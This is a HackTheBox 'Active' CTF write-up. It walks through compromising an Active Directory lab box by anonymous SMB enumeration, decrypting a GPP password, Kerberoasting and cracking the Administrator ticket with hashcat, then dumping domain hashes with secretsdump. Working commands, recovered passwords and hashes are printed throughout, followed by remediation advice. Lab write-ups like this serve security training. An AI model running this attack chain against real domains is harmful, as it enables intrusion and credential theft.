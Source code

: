 # ACTIVE

![Active Info Card](Active_info-card.png)

This write-up covers the exploitation of the Active machine on HackTheBox. The box presents an Active Directory environment vulnerable to Group Policy Preference (GPP) abuse and Kerberoasting, leading to domain administrator access. Real-world techniques such as SMB enumeration, GPP credential decryption, and offline Kerberos ticket cracking are utilized to compromise the environment.

## Reconnaissance and Enumeration

Initial Nmap scans revealed a classic Active Directory setup on Windows Server 2008 R2 SP1, with ports for SMB, LDAP, DNS, Kerberos, and RPC open.

```sh
❯ sudo nmap -sC -sV -Pn -T4 -oA nmap_results 10.129.119.21
Command executed at: 2025-03-15 15:03:40
...
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Active Directory LDAP (Domain: active.htb)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Active Directory LDAP (Domain: active.htb)
...
```

### **Did You Know? - Active Directory Ports**

> **Active Directory** commonly exposes Kerberos (88), LDAP (389/3268), and SMB (445) services. These allow for authentication, directory queries, and file sharing. Misconfigurations in any of these can expose sensitive data or allow unauthorized access.

SMB enumeration with anonymous access revealed multiple shares, including Replication and Users.

```sh
❯ smbclient -L //10.129.119.21/ -N
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk      
SYSVOL          Disk      Logon server share
Users           Disk      
```

Access to Replication was allowed anonymously, leading to the discovery of Groups.xml within GPP folders.

## Analysis and Exploitation

The Groups.xml file contained a cpassword field, indicating credentials stored via Group Policy Preferences.

```xml
<Properties action="U" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf..." userName="active.htb\SVC_TGS" />
```

### **Did You Know? - GPP Credential Vulnerability**

> Older Windows systems stored GPP passwords in XML files, encrypted with a static AES key. Tools like **gpp-decrypt** can easily recover plaintext passwords.

Using gpp-decrypt, the password was revealed:

```sh
❯ gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLf...'
GPPstillStandingStrong2k18
```

```txt
Credentials obtained: SVC_TGS:GPPstillStandingStrong2k18
```

Authenticated SMB access to Users share allowed retrieval of user.txt.

```sh
smb: \SVC_TGS\Desktop\> get user.txt
9202937e283f7da718111d451c77f86d
```

## Privilege Escalation via Kerberoasting

RPC enumeration confirmed limited domain users, and CrackMapExec revealed no account lockout policy, allowing quick and safe password cracking attempts.

**Kerberoasting** was performed to extract a TGS ticket for the Administrator account:

```sh
❯ sudo impacket-GetUserSPNs active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.119.21 -request
...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$fdeaaefc...
```

The hash was cracked offline using Hashcat because the password was weak enough to appear in common wordlists used in dictionary attacks:

```sh
❯ hashcat -m 13100 administrator_hash.krb rockyou.txt --force
...
Recovered........: 1/1 (100.00%)
Password.........: Ticketmaster1968
```

```txt
Administrator credentials: Administrator:Ticketmaster1968
```

## Post-Exploitation

Using **secretsdump**, all NTLM hashes and domain secrets were extracted:

```sh
❯ sudo impacket-secretsdump active.htb/Administrator:'Ticketmaster1968'@10.129.119.21
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c15eb37006fb74c21a5d1e2144b726e:::
...
```

SMB access as Administrator revealed root.txt on the desktop:

```sh
smb: \Administrator\Desktop\> get root.txt
b34047xxxxxxxxxxxxx73db50
```

![Completion](completion.png)

## Findings and Remediation

### Findings

- **GPP Password Exposure:** Credentials for SVC_TGS were stored in plaintext within a Group Policy Preferences XML file.

- **Weak Password Practices:** Administrator password was crackable using the rockyou.txt wordlist.

- **Anonymous SMB Access:** Initial SMB access was possible without credentials.

### Remediation

- **Remove GPP Passwords:** Upgrade systems to prevent GPP password storage. Remove any residual XML files.

- **Enforce Strong Passwords:** Use complex, unique passwords and enforce length and complexity policies.

- **Restrict SMB Access:** Disable anonymous access and limit share permissions.

## Lessons Learned

This scenario reinforces the risks of legacy system configurations and insecure credential storage practices. GPP credential exposure is a known issue on older Windows environments, and Kerberoasting remains a powerful method for privilege escalation. Preventative measures, including strict access control and password policies, are essential to defend against such attacks.

## Resources

- [HackTheBox - Active CTF](https://app.hackthebox.com/machines/148)
- [GPP Password Decryption](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/unsecured-credentials/group-policy-preferences/gpp-password)

---

[⬅ Back to Home](/CTF-Reports/)
